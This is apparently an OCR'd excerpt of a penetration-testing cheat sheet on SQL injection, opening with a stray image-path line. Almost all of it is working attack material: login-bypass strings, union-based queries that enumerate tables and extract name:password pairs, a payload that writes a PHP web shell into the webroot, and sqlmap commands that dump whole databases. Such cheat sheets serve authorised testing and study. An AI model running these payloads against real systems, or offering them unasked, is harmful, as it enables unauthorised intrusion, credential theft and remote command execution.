              name='wronguser' or 1=1;  
              name='wronguser' or 1=1 LIMIT 1;

- Enumerating the Database  

        `http://192.168.11.35/comment.php?id=738)'`  

        Verbose error message?  

        `http://$ip/comment.php?id=738 order by 1`

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6`

        Determine MySQL Version:  

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,@@version,6`

        Current user being used for the database connection:

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,user(),6`

        Enumerate database tables and column structures  

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables`

        Target the users table in the database  

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where        table_name='users'`

        Extract the name and password  

        `http://$ip/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a, password),6 FROM users`

        Create a backdoor

        `http://$ip/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE        'c:/xampp/htdocs/backdoor.php'`

- **SQLMap Examples**

- Crawl the links

         `sqlmap -u http://$ip --crawl=1`

         `sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3`

- SQLMap Search for databases against a suspected GET SQL Injection

        `sqlmap –u http://$ip/blog/index.php?search –dbs`

- SQLMap dump tables from database oscommerce at GET SQL injection

        `sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables –dumps`

- SQLMap GET Parameter command  

         `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump -threads=5`

- SQLMap Post Username parameter

          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --dump-all`
